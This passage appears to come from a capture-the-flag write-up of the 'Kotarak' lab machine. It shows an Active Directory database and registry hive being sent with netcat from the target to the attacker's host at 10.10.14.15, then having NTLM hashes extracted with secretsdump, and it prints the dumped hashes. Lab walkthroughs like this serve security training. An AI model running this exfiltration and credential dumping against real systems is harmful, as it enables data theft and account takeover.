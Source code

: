 

`/home/tomcat` (which isn't actually the home directory for the tomcat
user, but it's still there) holds two files in a subdirectory:



    tomcat@kotarak-dmz:/home/tomcat$ find . -type f
    ./to_archive/pentest_data/20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin
    ./to_archive/pentest_data/20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit



The `.bin` reports to be a Windows registry file, where as `file`
doesn't recognize the `.dit` as anything more than data:



    tomcat@kotarak-dmz:/home/tomcat/to_archive/pentest_data$ file *
    20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit: data
    20170721114637_default_192.168.110.133_psexec.ntdsgrab._089134.bin: MS Windows registry file, NT/2000 or above



The `.dit` is likely the active directory database from a domain
controller, `ntds.dit`.

I'll exfil each over `nc`. For example, I'll start a listener with
`nc -lnvp 443 > 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit`
on my VM, and then run
`cat 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit | nc 10.10.14.15 443`
on Kotarak.

### Recover Passwords

#### Dump Hashes

`secretsdump` will extract all the hashes from an `ntds.dit` file using
the SYSTEM reg hive to decrypt:



    oxdf@parrot$ secretsdump.py -ntds 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit -system 20170721114637_de
    fault_192.168.110.133_psexec.ntdsgrab._089134.bin LOCAL | tee addump
    Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

    [*] Target system bootKey: 0x14b6fb98fedc8e15107867c4722d1399
    [*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
    [*] Searching for pekList, be patient                                           
    [*] PEK # 0 found and decrypted: d77ec2af971436bccb3b6fc4a969d7ff
    [*] Reading and decrypting hashes from 20170721114636_default_192.168.110.133_psexec.ntdsgrab._333512.dit 
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:e64fe0f24ba2489c05e64354d74ebd11:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WIN-3G2B0H151AC$:1000:aad3b435b51404eeaad3b435b51404ee:668d49ebfdb70aeee8bcaeac9e3e66fd:::
    krbtgt:502:aad3b435b51404eeaad3b435b51404ee:ca1ccefcb525db49828fbb9d68298eee:::
    WIN2K8$:1103:aad3b435b51404eeaad3b435b51404ee:160f6c1db2ce0994c19c46a349611487:::
    WINXP1$:1104:aad3b435b51404eeaad3b435b51404ee:6f5e87fd20d1d8753896f6c9cb316279:::
    WIN2K31$:1105:aad3b435b51404eeaad3b435b51404ee:cdd7a7f43d06b3a91705900a592f3772:::
    WIN7$:1106:aad3b435b51404eeaad3b435b51404ee:24473180acbcc5f7d2731abe05cfa88c:::
    atanas:1108:aad3b435b51404eeaad3b435b51404ee:2b576acbe6bcfda7294d6bd18041b8fe:::
    ...[snip]...
